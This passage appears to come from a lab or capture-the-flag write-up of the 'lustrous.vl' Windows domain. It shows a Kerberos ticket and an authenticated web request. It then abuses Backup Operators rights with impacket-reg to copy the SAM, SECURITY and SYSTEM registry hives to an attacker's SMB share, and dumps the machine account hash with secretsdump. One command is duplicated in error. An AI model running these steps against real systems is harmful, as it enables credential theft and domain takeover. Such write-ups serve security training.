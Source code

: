     #0>     Client: Tony.Ward @ lustrous.vllustrous.vl
        Server: http/lusdc.lustrous.vl @ lustrous.vllustrous.vl
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 7/1/2024 2:51:45 (local)
        End Time:   6/29/2034 2:51:45 (local)
        Renew Time: 6/29/2034 2:51:45 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called

After that we can use the PowerShell Invoke-WebRequest cmdlet with the UseDefaultCredentials flag to access the web application in the context of tony.ward user.

    >(iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content
        .
        .
        .
        [snip]
        .
        .
        U_cPCQq<redacted>


## Abusing the Backup Admins Privileges


U may wanna use this [PoC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) but i decided to do this with reg.py

    impacket-smbserver smb share/ -smb2support

    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 -dc-ip 10.10.170.69 backup -o \\\\10.8.2.152\\smb

This may take some time, as the SYSTEM database is a really large file. I’ve also ran into a few NETBIOS timeouts when running this, feel free to do a bit of trial and error with this tool. There also is an alternative with BackupOperatorToDA, which will perform a similar action.

Another note, I’ve had luck downloading the registry hives individually, you can do so with the below commands. Just make sure to wait a bit in between downloads so you don’t receive an invalid handle error.

    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SAM' -o \\\\10.8.2.152\\smb_share
    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SECURITY' -o \\\\10.8.2.152\\smb_share
    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SECURITY' -o \\\\10.8.2.152\\smb_share

After it’s finished, you should have all three files in the respective directory you used for the SMB server. We can now use these three files to dump the machine account NTLM hash for LUSDC$. (Make sure to close out of your SMB server so you don’t receive a read-length error)

    impacket-secretsdump -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
